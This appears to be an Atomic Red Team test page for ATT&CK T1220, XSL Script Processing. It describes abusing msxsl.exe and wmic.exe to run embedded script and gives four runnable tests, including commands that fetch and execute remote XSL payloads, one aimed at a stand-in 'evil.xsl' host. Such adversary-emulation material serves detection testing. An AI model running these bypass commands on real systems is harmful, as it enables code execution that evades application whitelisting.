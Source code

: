 # T1220 - XSL Script Processing
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1220)
<blockquote>Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to [Trusted Developer Utilities](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018)

Command-line example: (Citation: Penetration Testing Lab MSXSL July 2017)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file. (Citation: subTee WMIC XSL APR 2018) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1117)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool.

Command-line examples: (Citation: subTee WMIC XSL APR 2018)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - MSXSL Bypass using local files](#atomic-test-1---msxsl-bypass-using-local-files)

- [Atomic Test #2 - MSXSL Bypass using remote files](#atomic-test-2---msxsl-bypass-using-remote-files)

- [Atomic Test #3 - WMIC bypass using local XSL file](#atomic-test-3---wmic-bypass-using-local-xsl-file)

- [Atomic Test #4 - WMIC bypass using remote XSL file](#atomic-test-4---wmic-bypass-using-remote-xsl-file)


<br/>

## Atomic Test #1 - MSXSL Bypass using local files
Executes the code specified within a XSL script tag during XSL transformation using a local payload. Requires download of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Location of the test XML file on the local filesystem. | Path | C:\AtomicRedTeam\atomics\T1220\src\msxslxmlfile.xml|
| xslfile | Location of the test XSL script file on the local filesystem. | Path | C:\AtomicRedTeam\atomics\T1220\src\msxslscript.xsl|

#### Run it with `command_prompt`! 
```
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```



<br/>
<br/>

## Atomic Test #2 - MSXSL Bypass using remote files
Executes the code specified within a XSL script tag during XSL transformation using a remote payload. Requires download of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Remote location (URL) of the test XML file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml|
| xslfile | Remote location (URL) of the test XSL script file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl|

#### Run it with `command_prompt`! 
```
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```



<br/>
<br/>

## Atomic Test #3 - WMIC bypass using local XSL file
Executes the code specified within a XSL script using a local payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| local_xsl_file | Location of the test XSL script file on the local filesystem. | path | C:\AtomicRedTeam\atomics\T1220\src\wmicscript.xsl|

#### Run it with `command_prompt`! 
```
wmic.exe #{wmic_command} /FORMAT:#{local_xsl_file}
```



<br/>
<br/>

## Atomic Test #4 - WMIC bypass using remote XSL file
Executes the code specified within a XSL script using a remote payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| remote_xsl_file | Remote location of an XSL payload. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl|

#### Run it with `command_prompt`! 
```
wmic.exe #{wmic_command} /FORMAT:#{remote_xsl_file}
```



<br/>
